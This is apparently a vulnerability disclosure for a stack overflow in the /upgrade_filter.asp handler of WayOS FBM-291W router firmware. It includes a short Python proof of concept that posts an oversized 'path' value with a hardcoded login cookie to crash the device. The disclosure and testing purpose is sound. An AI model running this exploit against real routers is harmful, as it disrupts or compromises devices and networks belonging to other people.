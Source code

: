 # FBM-291W-19.09.11V **stack overflow**

## Firmware information

- Manufacturer's address: https://www.wayos.com/
- Firmware download address: https://drive.weixin.qq.com/s?k=ANgAJAcRAAcJQcZsqk#/preview?fileId=s.1970324955538648.649217589iNQ_f.677141204X86O

## Affected version

![1](https://gitee.com/blogyoulin/img/raw/master/images/202307061654721.png)

## Vulnerability details

![image-20230706170020409](https://gitee.com/blogyoulin/img/raw/master/images/202307061700543.png)

In /upgrade_filter.asp, There is stack_overflow

## Poc

```
import requests
from pwn import *

cmd=b"echo success_pwn_it"

payload=b'http://'+b'A'*0x1000

url = "http://192.168.0.1/upgrade_filter.asp"
cookie={"Cookie":"language=zh; userid=root; gw_userid=root,gw_passwd=94B830FE0CCD890946AE1C8318A2BE7B"}
data = {"path": payload}
response = requests.post(url,cookies=cookie,data=data)
#response = requests.post(url,cookies=cookie,data=data)
print(response.text)
```

